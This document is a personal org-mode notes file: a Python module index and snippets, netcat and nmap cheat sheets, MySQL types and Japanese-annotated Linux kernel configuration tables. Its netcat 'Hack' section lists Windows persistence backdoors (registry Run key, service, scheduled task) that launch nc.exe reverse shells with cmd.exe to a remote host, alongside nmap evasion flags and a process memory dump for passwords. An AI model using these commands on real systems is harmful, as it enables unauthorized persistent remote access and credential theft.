1 socket                -Network Communication
2 select                -Wait for I/O Efficiently
3 SocketServer          -Creating Network Servers
4 asyncore              -Asynchronous I/O
5 asynchat              -Asynchronous Protocol Handler

****** The Internet
1 urlparse              -Split URLs into Components
2 BaseHTTPServer        -Base Classes for Implementing Web Servers
3 urllib                -Network Resource Access
4 urllib2               -Network Resource Access
5 base64                -Encode Binary Data with ASCII
6 robotparser           -Internet Spider Access Control
7 Cookie                -HTTP Cookies
8 uuid                  -Universally Unique Identifiers
9 json                  -JavaScript Object Notation
10 xmlrpclib            -Client Library for XML-RPC
11 SimpleXMLRPCServer   -An XML-RPC Server

****** Email
1 smtplib               -Simple Mail Transfer Protocol Client
2 smtpd                 -Sample Mail Servers
3 imaplib               -IMAP4 Client Library
4 mailbox               -Manipulate Email Archives

****** Application Building Blocks
1 getopt                -Command-Line Option Parsing
2 optparse              -Command-Line Option Parser
3 argparse              -Command-Line Option and Argument Parsing
4 readline              -The GNU Readline Library
5 getpass               -Secure Password Prompt
6 cmd                   -Line-Oriented Command Processors
7 shlex                 -Parse Shell-Style Syntaxes
8 ConfigParser          -Work with Configuration Files
9 logging               -Report Status, Error, and Informational Messages
10 fileinput            -Command-Line Filter Framework
11 atexit               -Program Shutdown Callbacks
12 sched                -Timed Event Scheduler

****** Internationalization and Localization
1 gettext               -Message Catalogs
2 locale                -Cultural Localization API

****** Developer Tools
1 pydoc                 -Online Help for Modules
2 doctest               -Testing through Documentation
3 unittest              -Automated Testing Framework
4 traceback             -Exceptions and Stack Traces
5 cgitb                 -Detailed Traceback Reports
6 pdb                   -Interactive Debugger
7 trace                 -Follow Program Flow
8 profile and pstats    -Performance Analysis
9 timeit                -Time the Execution of Small Bits of Python Code
10 compileall           -Byte-Compile Source Files
11 pyclbr               -Class Browser

****** Runtime Features
1 site                  -Site-Wide Configuration
2 sys                   -System-Specific Configuration
3 os                    -Portable Access to Operating System Specific Features
4 platform              -System Version Information
5 resource              -System Resource Management
6 gc                    -Garbage Collector
7 sysconfig             -Interpreter Compile-Time Configuration

****** Language Tools
1 warnings              -Nonfatal Alerts
2 abc                   -Abstract Base Classes
3 dis                   -Python Bytecode Disassembler
4 inspect               -Inspect Live Objects
5 exceptions            -Built-in Exception Classes

****** Modules and Packages
1 imp                   -Python's Import Mechanism
2 zipimport             -Load Python Code from ZIP Archives
3 pkgutil               -Package Utilities

***** optparse
(setq optparse '(("action="          . ("'store'," "'store_const'." "'store_true',"
										"'store_false'," "'append'," "'append_const'," "'count',"))
				 ("type="            . ("'string'" "'int'" "'long'" "'choice'" "'float'" "'complex'"))
				 ("dest="            . ("'',"))
				 ("default="         . ("'True'," "'False',"))
				 ("nargs="           . ("1" "2" "3" "4" "5" "6" "7" "8" "9"))
				 ("const="           . ("''"))
				 ("choices="         . ("''"))
				 ("callback="        . ("''"))
				 ("callback_args="   . ("''"))
				 ("callback_kwargs=" . ("''"))
				 ("help="            . ("''"))
				 ("metavar"          . ("''"))
				 ))
***** typecheck
****** inspect
- inspect.ismodule ()
- inspect.isclass ()
- inspect.ismethod ()
- inspect.ismethoddescriptor ()
- inspect.ismemberdescriptor ()
- inspect.isgetsetdescriptor ()
- inspect.isfunction ()
- inspect.isgeneratorfunction ()
- inspect.isgenerator ()
- inspect.istraceback ()
- inspect.isframe ()
- inspect.iscode ()
- inspect.isbuiltin ()
- inspect.isroutine ()
- inspect.isabstract ()

****** types
if type (etc) == types.NoneType:
if type (etc) == types.TypeType:
if type (etc) == types.ObjectType:
if type (etc) == types.IntType:
if type (etc) == types.LongType:
if type (etc) == types.FloatType:
if type (etc) == types.BooleanType:
if type (etc) == types.ComplexType:
if type (etc) == types.StringType:
if type (etc) == types.UnicodeType:
if type (etc) == types.StringTypes:
if type (etc) == types.StringTypes:
if type (etc) == types.BufferType:
if type (etc) == types.TupleType:
if type (etc) == types.ListType:
if type (etc) == types.DictType:
if type (etc) == types.FunctionType:
if type (etc) == types.LambdaType:
if type (etc) == types.CodeType:
if type (etc) == types.GeneratorType:
if type (etc) == types.ClassType:
if type (etc) == types.UnboundMethodType:
if type (etc) == types._x:
if type (etc) == types.InstanceType:
if type (etc) == types.MethodType:
if type (etc) == types.BuiltinFunctionType:
if type (etc) == types.BuiltinMethodType:
if type (etc) == types.ModuleType:
if type (etc) == types.FileType:
if type (etc) == types.XRangeType:
if type (etc) == types.tb:
if type (etc) == types.TracebackType:
if type (etc) == types.FrameType:
if type (etc) == types.SliceType:
if type (etc) == types.EllipsisType:
if type (etc) == types.DictProxyType:
if type (etc) == types.NotImplementedType:
if type (etc) == types.GetSetDescriptorType:
if type (etc) == types.MemberDescriptorType:

****** isinstance
- isinstance (object, classinfo)

***** while
def while1 ():
    while 1:
        pass

def while_ture ():
    while True:
        pass

dis.dis (while1)
  2           0 SETUP_LOOP               3 (to 6)

  3     >>    3 JUMP_ABSOLUTE            3
        >>    6 LOAD_CONST               0 (None)
              9 RETURN_VALUE

dis.dis (while_ture)
  2           0 SETUP_LOOP              10 (to 13)
        >>    3 LOAD_GLOBAL              0 (True)
              6 POP_JUMP_IF_FALSE       12

  3           9 JUMP_ABSOLUTE            3
        >>   12 POP_BLOCK
        >>   13 LOAD_CONST               0 (None)
             16 RETURN_VALUE

**** Librarys Category
***** String
****** regexp
- re

****** IO interface
- cStringIO

****** diff
- difflib

****** text
- textwrap

***** Data
****** Database
***** Times                         
- date 
- calendar
- dateutil

***** Mathematic
***** Binary
- bitarray
***** File and Directory
****** File Format
******* Archiving
******** gzip
- gzip
(ref. [[http://docs.python.org/2/library/gzip.html#examples-of-usage][documment]])

>>> import gzip
>>> f = gzip.open ('file.txt.gz', 'rb')
>>> file_content = f.read ()
>>> f.close ()
=*=*=*=
>>> import gzip
>>> content = "Lots of content here"
>>> f = gzip.open ('file.txt.gz', 'wb')
>>> f.write (content)
>>> f.close ()
=*=*=*=

******** zip
******** tar
******** 7z
******* PDF
- pyPdf
******* CSV
- unicodecsv
******* xls
- xlrd
- xlwt
- xlutils
******* doc

****** Temporary File and Directory
****** Persistence
***** Security
****** Crypt
- pycrypto
***** Networking
****** Networking
- ipaddress
****** Internet Data Handling
- lxml
- feedparser
****** Internet Protocols and Support
******* FTP
- pyftpdlib
- simpleFTP
******* SSH
- paramiko

****** Structured Markup Processing
***** Multimedia
****** Images
- PIL (python Imaging Library)

****** Videos
***** Operating System
****** Optional Operating System Services
***** User Interface
****** GUI
- easygui
- wxPython

******* clipboard
- pyperclip
>>> import pyperclip
>>> pyperclip.copy ('hello')
>>> pyperclip.paste ()
'hello'

****** CUI
******* Terminal
******** opitons
- argparse
- curses

******** Color
- colorama
[example]
#+BEGIN_SRC python
from colorama import init, Fore, Style
init ()
FUNC_FMT = (Fore.CYAN+Style.BRIGHT+'{}'+Style.RESET_ALL).format
WHITE_FMT = (Fore.WHITE+Style.BRIGHT +'{}'+Style.RESET_ALL).format
print (FUNC_FMT ('hello cyan'))
print (FUNC_FMT ('hello white'))
#+END_SRC

- t1.coloramautil
#+BEGIN_SRC python
from t1.coloramautil.formatter import FORECYAN_RESET
print (BRIGHT (FORECYAN_RESET ('hello')))
#+END_SRC

***** GEO
***** Internationalization
***** Development Tools
****** Debugging and Profiling
****** Test
- nose
- mocker
- coverage
***** Pyhton Specific
****** Python Runtime Services
- virtualenv
****** Interpreters
- ipython
****** Language Services
- clonedigger
****** compiler package
****** Importing Modules
***** Restricted Execution
***** Miscellaneous Services
***** Platform Specific
****** MS Windows Specific Services
****** Unix Specific Services
****** Mac OS X specific services
****** MacPython OSA Modules
****** SGI IRIX Specific Services
****** SunOS Specific Services
***** Undocumented Modules

***** Device
****** cdrom
- pygame.cdrom
>>> import pygame.cdrom as cdrom
>>> cdrom.init ()
>>> cd = cdrom.CD (0) # 0 = first cdrom device
>>> cd.init ()
>>> cd.eject ()
>>> cd.quit ()
>>> cdrom.quit ()

*** Assembly
* etc
* linux
* mindmap
* ref
** netcat															 :netcat:
*** Information Gathering
Port Scan                          nc -vv -w 1 -n -r -z [target] [port-range]

Web Banner Grab                    nc -vv [target] 80
                                   HEAD / HTTP/1.0
				   [Enter]
Detection Outbound Filter          server: iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 1:65535 -j REDIRECT --to-port 1234
                                           iptables -t nat -A PREROUTING -i eth0 -p udp --dport 1:65535 -j REDIRECT --to-port 1234
					   iptables -L -n -t nat
					   nc -vvlp 1234
					   nc -vvulp 1234
			           client: nc -vvz [target] 1-65535

*** File Transfer
Web Server                         while true; do nc -vvlp 80 -q 1 < [filename]; done
Clonig Hard Drive                  Server: nc -vvlp [port] | dd of=[device (/dev/sda)]
                                   Client: dd if=[device (/dev/sda)] | nc -vv [serverip] [port]
*** Web Server
one page server                    while true; do nc -vvlp 80 -q 1 < [html|etc]; done

*** Redirecting Ports and Traffic
Redirecting                        server: nc -vvlp [port]
                                   middle: nc --vvlp [port] | nc [server] [port]
                                   Client: nc [middle] [port]

*** Hack
Backdoor                           c:\reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v nc /t REG_SZ /d " c:\windows\nc.exe -d 192.168.1.70 1234 -e cmd.exe "
Windows Service Backdoor           sc create [name (Network Connection Driver Service)] binPath= " cmd /K start c:\nc.exe – d [LHOST] [LPORT] – e cmd.exe " start= auto error= ignore
Task Scheduling Backdoor           at [time (15:00:00)] /every:n,t,w,th,f,s,su ""c:\nc.exe – d [LHOST] [LPORT] – e cmd.exe""

** Nmap																   :nmap:
*** Basic Scanning Techniques *
Scan a Single Target               nmap [target]
Scan Multiple Targets              nmap [target1, target2, etc]
Scan a List of Targets             nmap -iL [list.txt]
Scan a Range of Hosts              nmap [range of ip addresses]
Scan an Entire Subnet              nmap [ip address/cdir]
Scan Random Hosts                  nmap -iR [number]
Excluding Targets from a Scan      nmap [targets] --exclude [targets]
Excluding Targets Using a List     nmap [targets] --excludefile [list.txt]
Perform an Aggressive Scan         nmap -A [target]
Scan an IPv6 Target                nmap -6 [target]

*** Discovery Options *
Perform a Ping Only Scan           nmap -sP [target]
Don ' t Ping                      nmap -PN [target]
TCP SYN Ping                       nmap -PS [target]
TCP ACK Ping                       nmap -PA [target]
UDP Ping                           nmap -PU [target]
SCTP INIT Ping                     nmap -PY [target]
ICMP Echo Ping                     nmap -PE [target]
ICMP Timestamp Ping                nmap -PP [target]
ICMP Address Mask Ping             nmap -PM [target]
IP Protocol Ping                   nmap -PO [target]
ARP Ping                           nmap -PR [target]
Traceroute                         nmap --traceroute [target]
Force Reverse DNS Resolution       nmap -R [target]
Disable Reverse DNS Resolution     nmap -n [target]
Alternative DNS Lookup             nmap --system-dns [target]
Manually Specify DNS Server (s)    nmap --dns-servers [servers] [target]
Create a Host List                 nmap -sL [targets]

*** Advanced Scanning Functions *
TCP SYN Scan                       nmap -sS [target]
TCP Connect Scan                   nmap -sT [target]
UDP Scan                           nmap -sU [target]
TCP NULL Scan                      nmap -sN [target]
TCP FIN Scan                       nmap -sF [target]
Xmas Scan                          nmap -sX [target]
TCP ACK Scan                       nmap -sA [target]
Custom TCP Scan                    nmap --scanflags [flags] [target]
IP Protocol Scan                   nmap -sO [target]
Send Raw Ethernet Packets          nmap --send-eth [target]
Send IP Packets                    nmap --send-ip [target]

*** Port Scanning Options *
Perform a Fast Scan                nmap -F [target]
Scan Specific Ports                nmap -p [port (s)] [target]
Scan Ports by Name                 nmap -p [port name (s)] [target]
Scan Ports by Protocol             nmap -sU -sT -p U:[ports],T:[ports] [target]
Scan All Ports                     nmap -p "*" [target]
Scan Top Ports                     nmap --top-ports [number] [target]
Perform a Sequential Port Scan     nmap -r [target]

*** Version Detection *
Operating System Detection         nmap -O [target]
Submit TCP/IP Fingerprints         www.nmap.org/submit/
Attempt to Guess an Unknown        nmap -O --osscan-guess [target]
Service Version Detection          nmap -sV [target]
Troubleshooting Version Scans      nmap -sV --version-trace [target]
Perform a RPC Scan                 nmap -sR [target]

*** Timing Options *
Timing Templates                   nmap -T[0-5] [target]
Set the Packet TTL                 nmap --ttl [time] [target]
Minimum # of Parallel Operations   nmap --min-parallelism [number] [target]
Maximum # of Parallel Operations   nmap --max-parallelism [number] [target]
Minimum Host Group Size            nmap --min-hostgroup [number] [targets]
Maximum Host Group Size            nmap --max-hostgroup [number] [targets]
Maximum RTT Timeout                nmap --initial-rtt-timeout [time] [target]
Initial RTT Timeout                nmap --max-rtt-timeout [TTL] [target]
Maximum Retries                    nmap --max-retries [number] [target]
Host Timeout                       nmap --host-timeout [time] [target]
Minimum Scan Delay                 nmap --scan-delay [time] [target]
Maximum Scan Delay                 nmap --max-scan-delay [time] [target]
Minimum Packet Rate                nmap --min-rate [number] [target]
Maximum Packet Rate                nmap --max-rate [number] [target]
Defeat Reset Rate Limits           nmap --defeat-rst-ratelimit [target]

*** Firewall Evasion Techniques *
Fragment Packets                   nmap -f [target]
Specify a Specific MTU             nmap --mtu [MTU] [target]
Use a Decoy                        nmap -D RND:[number] [target]
Idle Zombie Scan                   nmap -sI [zombie] [target]
Manually Specify a Source Port     nmap --source-port [port] [target]
Append Random Data                 nmap --data-length [size] [target]
Randomize Target Scan Order        nmap --randomize-hosts [target]
Spoof MAC Address                  nmap --spoof-mac [MAC|0|vendor] [target]
Send Bad Checksums                 nmap --badsum [target]

*** Output Options *
Save Output to a Text File         nmap -oN [scan.txt] [target]
Save Output to a XML File          nmap -oX [scan.xml] [target]
Grepable Output                    nmap -oG [scan.txt] [targets]
Output All Supported File Types    nmap -oA [path/filename] [target]
Periodically Display Statistics    nmap --stats-every [time] [target]
133t Output                        nmap -oS [scan.txt] [target]

*** Troubleshooting and Debugging *
Getting Help                       nmap -h
Display Nmap Version               nmap -V
Verbose Output                     nmap -v [target]
Debugging                          nmap -d [target]
Display Port State Reason          nmap --reason [target]
Only Display Open Ports            nmap --open [target]
Trace Packets                      nmap --packet-trace [target]
Display Host Networking            nmap --iflist
Specify a Network Interface        nmap -e [interface] [target]

*** Nmap Scripting Engine *
Execute Individual Scripts         nmap --script [script.nse] [target]
Execute Multiple Scripts           nmap --script [expression] [target]
Script Categories                  all, auth, default, discovery, external,
                                   intrusive, malware, safe, vuln
Execute Scripts by Category        nmap --script [category] [target]
Execute Multiple Script Categories nmap --script [category1,category2,etc]
Troubleshoot Scripts               nmap --script [script] --script-trace  [target]
Update the Script Database         nmap --script-updatedb

*** Ndiff *
Comparison Using Ndiff             ndiff [scan1.xml] [scan2.xml]
Ndiff Verbose Mode                 ndiff -v [scan1.xml] [scan2.xml]
XML Output Mode                    ndiff --xml [scan1.xml] [scan2.xml]
** python -m (one liner)											 :python:
         Command                                      Functionality
python -m site             Print some useful information (sys.path, USER_BASE, USER_SITE)
python -m StringIO         Read information about the file (default: /etc/passwd)
python -m calendar         Show the console calendar
python -m zipfile          Zip/unzip analogue
python -m platform         Print the platform information
python -m mailcap          Show and execute MIME types handlers
python -m binhex           Convert the binary file to hex
python -m sgmllib          Parse the html file
python -m htmllib          Show the html file in the text mode
python -m webbrowser       Start the default web browser for the required URL
python -m urllib           Print the content of the remote site
python -m ftplib           Simple FTP client
python -m poplib           Print information about the remote mailbox
python -m smtpd            RFC 2821 SMTP proxy
python -m telnetlib        Simple telnet client
python -m SimpleHTTPServer Simple HTTP server
python -m CGIHTTPServer    CGI-savvy HTTP server
python -m aifc             Print information about the .aiff file
python -m sndhdr           Print information about sound files
python -m locale           Print locale information
python -m shlex            Split the file to tokens
python -m pydoc            Python documentation tool
python -m doctest          Doctest runner
python -m unittest         Unittest runner
python -m pdb              Python debugger
python -m timeit           Tool for measuring execution time of small code snippets
python -m trace            Trace Python program or function execution
python -m code             Python interpreter emulator
python -m tokenize         Split the file to tokens with detailed information
python -m pyclbr           Describe Python module classes and methods
python -m compileall       Compile all .py files to .pyc (.pyo) files
python -m filecmp          Compare two directory
python -m gzip             Gzip/gunzip analogue
python -m base64           RFC 3548: Base16, Base32, Base64 data encoder
python -m quopri           Convert to/from quoted-printable transport encoding as per RFC 1521
python -m cProfile         Profile Python code via 'lsprof' profiler
python -m profile          Profile Python code
python -m uu               Implement UUencode and UUdecode functions
python -m dis              Disassemble of Python byte code into mnemonics
python -m formatter        Generic output formatter

* security
** dump memory process from password
- PsTools\x86\userdump.exe %psid%

* windows
* templete.org
* mysql
** 整数型
   - TINYINT
     -128 から 127 (UNSIGNED の場合 0 から 255)

   - SMALLINT
     -32768 から 32767 (UNSIGNED の場合 0 から 65535)
   
   - MEDIUMINT
     -8388608 から 8388607 (UNSIGNED の場合 0 から 16777215)
   
   - INT
     -2147483648 から 2147483647 (UNSIGNED の場合 0 から 4294967295)
     別名： INTEGER
   
   - BIGINT
     -9223372036854775808 から 9223372036854775807
     (UNSIGNED の場合 0 から 18446744073709551615)

   - examples
     INT UNSIGNED

* 憂い
- 消火器


* kernel

** .config

   - 64-bit kernel                 

*** General setup
    | Cross-compiler tool prefix                                        |                                                                                                                                                                                                                  |                                    |
    | Compile also drivers which will not load                          |                                                                                                                                                                                                                  |                                    |
    | Local version - append to kernel release                          | バージョン番号に付加する文字列を設定 (例： Project-001 等)                                                                                                                                                        |                                    |
    | Automatically append version information to the version string    | バージョン管理システムで使うリビジョン番号をバージョン文字列に付加                                                                                                                                               |                                    |
    | ((none)) Default hostname                                         |                                                                                                                                                                                                                  |                                    |
    | Kernel compression mode                                           | カーネルの圧縮モード設定。 速度優先なら LZ4 。ディスクスペース節約なら xz 。                                                                                                                                     |                                    |
    | Support for paging of anonymous memory (swap)                     | メモリー・ページを 2 次記憶装置に退避させるメモリー・スワッピング機能を有効にする                                                                                                                                |                                    |
    | System V IPC                                                      | System V 方式のプロセス間通信をサポートする                                                                                                                                                                      |                                    |
    | POSIX Message Queues                                              | POSIX で定義されたメッセージ・キューをサポートする                                                                                                                                                               |                                    |
    | Enable process_vm_readv/writev syscalls                           |                                                                                                                                                                                                                  |                                    |
    | open by fhandle syscalls                                          |                                                                                                                                                                                                                  |                                    |
    | uselib syscall                                                    |                                                                                                                                                                                                                  |                                    |
    | Auditing support                                                  | システム監査用フレームワークを有効にする                                                                                                                                                                         |                                    |
    | Enable system-call auditing support                               |                                                                                                                                                                                                                  |                                    |
    | Kernel .config support                                            | カーネル設定ファイル（.config ）をカーネル内部に保存する                                                                                                                                                         |                                    |
    | Kernel log buffer size (16 => 64KB, 17 => 128KB)                  |                                                                                                                                                                                                                  |                                    |
    | CPU kernel log buffer size contribution (13 => 8 KB, 17 => 128KB) |                                                                                                                                                                                                                  |                                    |
    | Automatic process group scheduling                                | TTY ごとにタスクグループを自動的に生成する                                                                                                                                                                       | デスクトップで描画速度が改善する。 |
    | Enable deprecated sysfs features to support old userspace tools   |                                                                                                                                                                                                                  |                                    |
    | Kernel->user space relay support (formerly relayfs)               | debugfs などのファイル・システムのリレー・インタフェースをサポートする                                                                                                                                           |                                    |
    | Initial RAM filesystem and RAM disk (initramfs/initrd) support    | 初期 RAM ディスクをサポート                                                                                                                                                                                      |                                    |
    | Initramfs source file (s)                                          | ファイル名の指定、初期値=initrd.img                                                                                                                                                                              |                                    |
    | Support initial ramdisks compressed using gzip                    |                                                                                                                                                                                                                  |                                    |
    | Support initial ramdisks compressed using bzip2                   |                                                                                                                                                                                                                  |                                    |
    | Support initial ramdisks compressed using LZMA                    |                                                                                                                                                                                                                  |                                    |
    | Support initial ramdisks compressed using XZ                      |                                                                                                                                                                                                                  |                                    |
    | Support initial ramdisks compressed using LZO                     |                                                                                                                                                                                                                  |                                    |
    | Support initial ramdisks compressed using LZ4                     |                                                                                                                                                                                                                  |                                    |
    | Optimize for size                                                 | サイズ優先の最適化をしてカーネルをコンパイルする                                                                                                                                                                 |                                    |
    | Enable bpf () system                                               | Burkley Packet Filter                                                                                                                                                                                            | on use Wireshark tcpdump           |
    | Embedded system                                                   |                                                                                                                                                                                                                  |                                    |
    | Disable heap randomization                                        | heap ランダム化無効                                                                                                                                                                                              |                                    |
    | Provide system-wide ring of trusted keys                          |                                                                                                                                                                                                                  |                                    |
    | Profiling support                                                 | for OProfile                                                                                                                                                                                                     |                                    |
    | OProfile system profiling                                         |                                                                                                                                                                                                                  |                                    |
    | OProfile multiplexing support (EXPERIMENTAL)                      |                                                                                                                                                                                                                  |                                    |
    | Kprobes                                                           | ユーザーがあらかじめ指定したアドレス（プローブポイント）をカーネルが実行した際に、登録されているコールバック関数を呼び出す機能を提供する機構です。特定区間の実行速度の計測や障害発生時の動作解析などに有効です。 |                                    |
    | Optimize very unlikely/likely branches                            |                                                                                                                                                                                                                  |                                    |

**** IRQ subsystem
**** Timers subsystem
     | Timer tick handling (dynticks) | カーネル内の処理を定期的なタイマー割り込みに依存しないようにする |
     | Old Idle dynticks config       |                                                                  |
     | High Resolution Timer Support  |                                                                  |

**** CPU/Task time and stats accounting
     | BSD Process Accounting                         | 一般ユーザー権限で動いているプロセスが終了した時に、そのプロセスに関する情報がカーネルによって記録するかどうかの設定。 |
     | BSD Process Accounting version 3 file format   | バージョン 3 のアカウント情報取得メカニズムを有効にするオプション。                                                      |
     | Export task/process statistics through netlink |                                                                                                                        |
     | Enable per-task delay accounting               |                                                                                                                        |
     | Enable extended accounting over taskstats      | IO account                                                                                                             |
     | Enable per-task storage I/O accounting         |                                                                                                                        |

**** RCU Subsystem
     | Make expert-level adjustments to RCU configuration      |   |
     | Offload RCU callback processing from boot-selected CPUs |   |

**** Control Group support
     | Example debug cgroup subsystem                                    |                                                 |
     | Freezer cgroup subsystem                                          | cgroup 内のタスクを一時停止あるいは再開します。 |
     | Device controller for cgroups                                     |                                                 |
     | Cpuset support                                                    |                                                 |
     | Include legacy /proc/<pid>/cpuset file                            |                                                 |
     | Simple CPU accounting cgroup subsystem                            |                                                 |
     | Memory Resource Controller for Control Groups                     |                                                 |
     | Memory Resource Controller Swap Extension                         |                                                 |
     | Memory Resource Controller Swap Extension enabled by default      |                                                 |
     | Memory Resource Controller Kernel Memory accounting               |                                                 |
     | HugeTLB Resource Controller for Control Groups                    |                                                 |
     | Enable perf_event per-cpu per-container group (cgroup) monitoring |                                                 |
     | Block IO controller                                               |                                                 |
     | Enable Block IO controller debugging                              |                                                 |

***** Group CPU scheduler
      | Group scheduling for SCHED_OTHER                |   |
      | CPU bandwidth provisioning for FAIR_GROUP_SCHED |   |
      | Group scheduling for SCHED_RR/FIFO              |   |

**** Namespaces support
     | UTS namespace     |   |
     | IPC namespace     |   |
     | User namespace    |   |
     | PID Namespaces    |   |
     | Network namespace |   |

**** Configure standard kernel features (expert users)
     | Enable 16-bit UID system calls                  |                |
     | Multiple users, groups and capabilities support |                |
     | sgetmask/ssetmask syscalls support              |                |
     | Sysfs syscall support                           |                |
     | Sysctl syscall support                          |                |
     | Load all symbols for debugging/ksymoops         | /proc/kallsyms |
     | Include all symbols in kallsyms                 |                |
     | Enable support for printk                       |                |
     | BUG () support                                   |                |
     | Enable ELF core dumps                           |                |
     | Enable PC-Speaker support                       |                |
     | Enable full-sized data structures for core      |                |
     | Enable futex support                            |                |
     | Enable eventpoll support                        |                |
     | Enable signalfd () system call                   |                |
     | Enable timerfd () system call                    |                |
     | Enable eventfd () system call                    |                |
 

**** Kernel Performance Events And Counters
**** Choose SLAB allocator
     | SLAB | 一般的なスラブ・アロケータ             |
     | SLUB | メモリーを効率良く使用できるアロケータ |

**** Stack Protector buffer overflow detection (None)
     | None    |   |
     | Regular |   |
     | Strong  |   |

**** GCOV-based kernel profiling
                                                                                      
*** Enable loadable module support
    動的に組み込み可能なカーネル・モジュールに関する設定
     | Forced module loading            | カーネルが危険と判断していても，強制的にカーネル・モジュールをロードする                               |
     | Module unloading                 | カーネル・モジュールの取り外しに対応する                                                               |
     | Forced module unloading          | カーネルが危険と判断していても，強制的にカーネル・モジュールを取り外し可能にする                       |
     | Module versioning support        | カーネル・モジュールにカーネルのバージョン番号を組み込み，バージョンが異なるモジュールを利用不可にする |
     | Source checksum for all modules  | ビルドに使ったソース・コードのチェック・サム情報をカーネル・モジュールに組み込む                       |
     | Module signature verification    |                                                                                                        |
     | Compress modules on installation |                                                                                                        |

*** Enable the block layer
     | Support for large (2TB+) block devices and files | 2T バイトを超えるブロック・デバイスを取り扱るようにする |
     | Block layer SG support v4                        |                                                        |
     | Block layer SG support v4 helper lib             |                                                        |
     | Block layer data integrity support               |                                                        |
     | Block layer bio throttling support               |                                                        |
     | Block device command line partition parser       |                                                        |

**** Partition Types
     | Advanced partition selection                        |   |
     | Acorn partition support                             |   |
     | Cumana partition support                            |   |
     | EESOX partition support                             |   |
     | ICS partition support                               |   |
     | Native filecore partition support                   |   |
     | PowerTec partition support                          |   |
     | RISCiX partition support                            |   |
     | AIX basic partition table support                   |   |
     | Alpha OSF partition support                         |   |
     | Amiga partition table support                       |   |
     | Atari partition table support                       |   |
     | Macintosh partition map support                     |   |
     | PC BIOS (MSDOS partition tables) support            |   |
     | BSD disklabel (FreeBSD partition tables) support    |   |
     | Minix subpartition support                          |   |
     | Solaris (x86) partition table support               |   |
     | Unixware slices support                             |   |
     | Windows Logical Disk Manager (Dynamic Disk) support |   |
     | Windows LDM extra logging                           |   |
     | SGI partition support                               |   |
     | Ultrix partition table support                      |   |
     | Sun partition tables support                        |   |
     | Karma Partition support                             |   |
     | EFI GUID Partition support                          |   |
     | SYSV68 partition table support                      |   |
     | Command line partition support                      |   |
  
**** IO Schedulers
     | Deadline I/O scheduler       | データベースのような単一プロセスの入出力性能向上に向いた (Deadline) スケジューラをサポートする |
     | CFQ I/O scheduler            | デスクトップ環境向き (CFQ) のスケジューラをサポートする                                        |
     | CFQ Group Scheduling support |                                                                                              |

***** Default I/O scheduler (CFQ)
      | Deadline |                                              |
      | CFQ      |                                              |
      | No-op    | スケジューラを使用しない=I/O 要求順に処理する |
      |          |                                              |
   
*** Processor type and features
     | Symmetric multi-processing support                               |                                                                                           |
     | Enable MPS table                                                 |                                                                                           |
     | Support for big SMP systems with more than 8 CPUs                |                                                                                           |
     | Support for extended (non-PC) x86 platforms                      |                                                                                           |
     | Intel Low Power Subsystem Support                                |                                                                                           |
     | AMD ACPI2Platform devices support                                |                                                                                           |
     | Intel SoC IOSF Sideband support for SoC platforms                |                                                                                           |
     | Eurobraille/Iris poweroff module                                 |                                                                                           |
     | Single-depth WCHAN output                                        |                                                                                           |
     | Generic x86 support                                              | x86 互換プロセッサ汎用の最適化をする。選択したプロセッサ以外の x86 環境でも稼働可能になる |
     | PentiumPro memory ordering errata workaround                     |                                                                                           |
     | HPET Timer Support                                               | 高性能なハードウエア・タイマー「 HPET 」をサポートする                                    |
     | Maximum number of CPUs                                           |                                                                                           |
     | SMT (Hyperthreading) scheduler support                           | Hyperthreading のような「 SMT 」（ Simultaneous Multithreading ）機構をサポートする       |
     | Multi-core scheduler support                                     | マルチコア・プロセッサ向けのプロセッサ・スケジューラをサポートする                        |
     | Reroute for broken boot IRQs                                     |                                                                                           |
     | Machine Check / overheating reporting                            |                                                                                           |
     | Intel MCE features                                               |                                                                                           |
     | AMD MCE features                                                 |                                                                                           |
     | Support for old Pentium 5 / WinChip machine checks               |                                                                                           |
     | Machine check injector support                                   |                                                                                           |
     | Enable VM86 support                                              | 32bit 版 OS にて古い 8086 用プログラムを実行するためのもの                                     |
     | Toshiba Laptop support                                           |                                                                                           |
     | Dell i8k legacy laptop support                                   |                                                                                           |
     | Enable X86 board specific fixups for reboot                      |                                                                                           |
     | CPU microcode loading support                                    |                                                                                           |
     | Intel microcode loading support                                  |                                                                                           |
     | AMD microcode loading support                                    |                                                                                           |
     | /dev/cpu/*/msr - Model-specific register support                 | Model-specific レジスタにアクセスするためのデバイス・ファイル（/dev/cpu/*msr ）を有効にする |
     | /dev/cpu/*/cpuid - CPU information support                       | プロセッサ情報（ CPUID ）参照用のデバイス・ファイル（/dev/cpu/*/cpuid ）を有効にする         |
     | PAE (Physical Address Extension) Support                         |                                                                                           |
     | Numa Memory Allocation and Scheduler Support                     |                                                                                           |
     | NUMA emulation                                                   |                                                                                           |
     | Maximum NUMA Nodes (as a power of 2)                             |                                                                                           |
     | Allow for memory compaction                                      |                                                                                           |
     | Page migration                                                   |                                                                                           |
     | Enable bounce buffers                                            |                                                                                           |
     | Enable KSM for page merging                                      |                                                                                           |
     | Low address space to protect from user allocation                |                                                                                           |
     | Enable recovery from hardware memory errors                      |                                                                                           |
     | Transparent Hugepage Support                                     |                                                                                           |
     | Enable cleancache driver to cache clean pages if tmem is present |                                                                                           |
     | Enable frontswap to cache swap pages if tmem is present          |                                                                                           |
     | Contiguous Memory Allocator                                      |                                                                                           |
     | Common API for compressed memory storage                         |                                                                                           |
     | Low density storage for compressed pages                         |                                                                                           |
     | Memory allocator for compressed pages                            |                                                                                           |
     | Support non-standard NVDIMMs and ADR protected memory            |                                                                                           |
     | Allocate 3rd-level pagetables from highmem                       |                                                                                           |
     | Check for low memory corruption                                  |                                                                                           |
     | Amount of low memory, in kilobytes, to reserve for the BIOS      |                                                                                           |
     | Math emulation                                                   |                                                                                           |
     | MTRR (Memory Type Range Register) support                        |                                                                                           |
     | MTRR cleanup support                                             |                                                                                           |
     | MTRR cleanup enable value (0-1)                                  |                                                                                           |
     | MTRR cleanup spare reg num (0-7)                                 |                                                                                           |
     | Intel MPX (Memory Protection Extensions)                         |                                                                                           |
     | EFI runtime service support                                      |                                                                                           |
     | EFI stub support                                                 |                                                                                           |
     | Enable seccomp to safely compute untrusted bytecode              |                                                                                           |
     | kexec system call                                                |                                                                                           |
     | kernel crash dumps                                               |                                                                                           |
     | kexec jump                                                       |                                                                                           |
     | Physical address where the kernel is loaded                      |                                                                                           |
     | Build a relocatable kernel                                       |                                                                                           |
     | Randomize the address of the kernel image                        |                                                                                           |
     | Alignment value to which kernel should be aligned                |                                                                                           |
